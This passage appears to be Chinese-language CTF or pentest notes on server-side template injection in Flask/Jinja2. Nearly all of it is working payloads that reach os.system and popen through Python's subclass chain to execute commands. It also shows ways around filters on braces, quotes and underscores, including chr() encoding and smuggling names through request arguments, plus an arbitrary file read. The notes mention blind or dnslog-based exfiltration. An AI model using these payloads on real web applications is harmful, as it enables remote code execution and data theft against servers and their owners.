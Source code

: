 使用**字典**的形式, 直接用 `.` 访问

```python
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(72).__init__.__globals__.os.system('whoami')

''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(59).__init__.__globals__.linecache.os.popen('whoami').read()
```

Flask 环境下测试成功, 但在 python shell 中运行会报错

### 过滤 {{}}

使用`{% %}`

```python
{%if ''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].popen('whoami').read() == 'root' %}
1
{% endif %}
```

在 `{% %}` 中语句的输出内容无法回显, 只能盲注或者用 dnslog 回显

### 过滤引号

chr, 上面提到过

```python
# flask environment
{% set chr=().__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
```

```python
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__[chr(111)+chr(115)].__dict__[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)) # os.system('whoami')
```

还可以通过 request 对象逃逸

```python
().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__[request.args.os].popen(request.args.cmd).read()
```

get 传入 `os=os&cmd=whoami` 即可

### 过滤下划线

利用 request + `[]` 绕过

```python
{{ ''[request.args.class][request.args.mro][-1][request.args.subclasses]()[40]('d:/test.txt').read() }}
```

get 传入 `class=__class__&mro=__mro__&subclasses=__subclasses__`
